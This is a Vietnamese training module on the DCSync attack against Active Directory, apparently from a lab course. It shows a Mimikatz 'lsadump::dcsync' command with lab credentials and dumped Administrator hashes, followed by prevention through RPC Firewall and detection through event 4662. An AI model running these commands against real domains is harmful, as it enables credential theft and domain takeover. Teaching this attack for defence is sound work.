




# DCSync


## Description (Mô tả)

`DCSync` là một cuộc tấn công mà các threat agent dùng để mạo danh (impersonate) một Domain Controller và thực hiện replication (nhân bản) với một Domain Controller mục tiêu nhằm trích xuất các password hash từ Active Directory. Cuộc tấn công có thể được thực hiện từ góc độ của một tài khoản user hoặc một computer, miễn là chúng được gán các quyền cần thiết, đó là:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

---

## Attack (Tấn công)

Ta sẽ dùng user `Rocky` (có mật khẩu là `Slavi123`) để trình diễn cuộc tấn công `DCSync`. Khi kiểm tra quyền của Rocky, ta thấy anh ta được gán `Replicating Directory Changes` và `Replicating Directory Changes All`:



Trước tiên, ta cần khởi động một command shell mới chạy dưới danh nghĩa Rocky:

```cmd-session
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```



Tiếp theo, ta cần dùng `Mimikatz`, một trong các công cụ có cài đặt sẵn khả năng thực hiện DCSync. Ta có thể chạy nó bằng cách chỉ định username mà ta muốn lấy password hash nếu cuộc tấn công thành công, trong trường hợp này là user 'Administrator':

```cmd-session
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```



Có thể chỉ định tham số `/all` thay cho một username cụ thể, việc này sẽ dump hash của toàn bộ môi trường AD. Ta có thể thực hiện `pass-the-hash` với hash lấy được và xác thực tới bất kỳ Domain Controller nào.

---

## Prevention (Phòng chống)

Thứ mà DCSync lạm dụng là một thao tác thông thường trong các môi trường Active Directory, vì replication diễn ra giữa các Domain Controller mọi lúc; do đó, ngăn chặn DCSync ngay từ đầu (out of the box) không phải là một lựa chọn. Kỹ thuật phòng chống duy nhất đối với cuộc tấn công này là dùng các giải pháp như [RPC Firewall](https://github.com/zeronetworks/rpcfirewall), một sản phẩm của bên thứ ba có thể chặn hoặc cho phép các RPC call cụ thể với độ chi tiết (granularity) mạnh mẽ. Ví dụ, dùng `RPC Firewall`, ta có thể chỉ cho phép replication từ các Domain Controller.

---

## Detection (Phát hiện)

Phát hiện DCSync dễ vì mỗi lần replication của Domain Controller sinh ra một event với ID `4662`. Ta có thể bắt được các request bất thường ngay lập tức bằng cách giám sát event ID này và kiểm tra xem tài khoản khởi tạo có phải là một Domain Controller hay không. Đây là event được sinh ra từ trước đó khi ta chạy `Mimikatz`; nó đóng vai trò như một cờ báo rằng một tài khoản user đang thực hiện nỗ lực replication này:



Vì replication diễn ra liên tục, ta có thể tránh false positive bằng cách đảm bảo những điều sau:

- Một trong hai property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` hoặc `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` [có mặt trong event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).
- Whitelist các hệ thống/tài khoản có lý do nghiệp vụ (hợp lệ) để replicate, chẳng hạn `Azure AD Connect` (dịch vụ này liên tục replicate các Domain Controller và gửi các password hash lấy được tới Azure AD).
